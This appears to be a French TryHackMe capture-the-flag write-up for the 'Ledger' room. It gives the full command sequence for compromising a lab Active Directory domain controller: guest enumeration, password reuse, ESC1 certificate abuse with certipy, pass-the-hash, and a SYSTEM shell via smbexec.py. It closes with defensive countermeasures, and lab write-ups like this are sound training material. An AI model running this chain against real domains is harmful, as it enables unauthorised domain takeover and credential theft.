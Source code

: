
---

````markdown
# 🧾 TryHackMe - Ledger – Write-up Complet (FR)

**Room :** [https://tryhackme.com/room/ledger](https://tryhackme.com/room/ledger)

---

## 🧠 Objectif

Exploiter une machine Windows Active Directory vulnérable (`labyrinth.thm.local`)  
pour obtenir une exécution de commande en tant qu’administrateur de domaine  
via une attaque AD CS (ESC1) et la réutilisation de hash NTLM.

---

## 🔍 1. Scan et découverte initiale

### 🔎 Scan Nmap

```bash
nmap -Pn -sC -sV -T4 -p- labyrinth.thm.local
````

* Port 445 (SMB) ouvert : cible un contrôleur de domaine Windows.
* Ports 389 (LDAP) et 88 (Kerberos) également ouverts : environnement Active Directory confirmé.

### 🛠️ Préparation

Ajout dans `/etc/hosts` :

```
labyrinth.thm.local thm.local LABYRINTH
```

### 🧪 Tests d'accès invités

```bash
nxc smb labyrinth.thm.local -u 'guest' -p ''
nxc ldap labyrinth.thm.local -u 'guest' -p '' --users
```

✅ Plusieurs utilisateurs récupérés.
Deux utilisateurs partagent le même mot de passe.

### 🔐 Accès initial

```bash
nxc smb labyrinth.thm.local -u 'SUSANNA_MCKNIGHT' -p '[REDACTED]'
```

✅ Connexion confirmée.
Utilisation de Remmina pour ouvrir un accès graphique RDP.
📁 Fichier `user.txt` récupéré.

---

## 🧩 2. Exploitation d'AD CS – ESC1

### 🔬 Découverte de la vulnérabilité

```bash
certipy-ad find -u 'SUSANNA_MCKNIGHT@thm.local' -p '[REDACTED]' -target labyrinth.thm.local -stdout -vulnerable
```

* Modèle de certificat vulnérable détecté : **ServerAuth**.

### ❗ ESC1 - Détail de la faille

* ESC1 (Enterprise Security Control 1) permet de forger un certificat pour n’importe quel utilisateur (même Domain Admin).
* Conditions réunies :

  * `ENROLLEE_SUPPLIES_SUBJECT` activé
  * Client Authentication EKU présent
  * Groupe *Authenticated Users* peut s’enrôler

### 📥 Requête de certificat en se faisant passer pour l'administrateur

```bash
certipy-ad req -username 'SUSANNA_MCKNIGHT@thm.local' -password '[REDACTED]' \
  -ca thm-LABYRINTH-CA -template ServerAuth \
  -target labyrinth.thm.local -upn Administrator@thm.local
```

✔️ Un certificat `.pfx` est généré.

### 🪪 Authentification avec le certificat

```bash
certipy-ad auth -pfx administrator.pfx
```

✔️ Récupération d’un hash NTLM valide du compte Administrator.

---

## 🔁 3. Test du hash NTLM (Pass-the-Hash)

```bash
cme smb labyrinth.thm.local -u Administrator -H 07d677XXXXXXX322 --kdcHost labyrinth.thm.local
```

✔️ Accès administrateur confirmé. 🎉

---

## 🚀 4. Exécution de commande à distance (Shell SYSTEM)

```bash
smbexec.py -k -hashes :07d677XXXXXXX322 THM.LOCAL/Administrator@labyrinth.thm.local
```

✅ Shell SYSTEM via SMB obtenu.
📁 Récupération de `root.txt`.

---

## 🔐 5. Bonnes pratiques défensives (Blue Team)

| Problème                        | Contremesure recommandée                                    |
| ------------------------------- | ----------------------------------------------------------- |
| SMB exposé                      | Restreindre les accès SMB aux seuls hôtes autorisés         |
| Pass-the-Hash NTLM              | Activer LAPS, Forcer Kerberos (désactiver NTLM si possible) |
| ESC1 sur modèles de certificats | Désactiver `ENROLLEE_SUPPLIES_SUBJECT`, restreindre l'accès |
| Pas de monitoring ADCS          | Auditer les requêtes de certificats                         |
| Pas de journalisation 4625      | Activer l’audit des échecs d’authentification               |
| Aucune segmentation réseau      | Isoler les contrôleurs de domaine                           |
| Pas de détection post-exploit   | Déployer un SIEM avec règles sur smbexec, psexec, wmiexec   |

---

## ✅ En résumé

* L’accès initial est facilité par un compte avec mot de passe faible.
* La faille principale repose sur ESC1, mal configuré dans l’Active Directory Certificate Services.
* La réutilisation d’un hash NTLM permet une élévation de privilège jusqu’à Administrator.
* Une exécution de commande à distance est réalisée via SMBExec.

---

## 🧠 Outils utilisés

* `nxc` (NetExec)
* `certipy`
* `crackmapexec`
* `smbexec.py`

---

## 📌 À retenir pour la défense

* Surveillez les modèles de certificats.
* Ne laissez pas les utilisateurs choisir leurs propres sujets.
* Sécurisez SMB et éliminez NTLM si possible.
* Déployez la journalisation et les alertes ADCS.

---

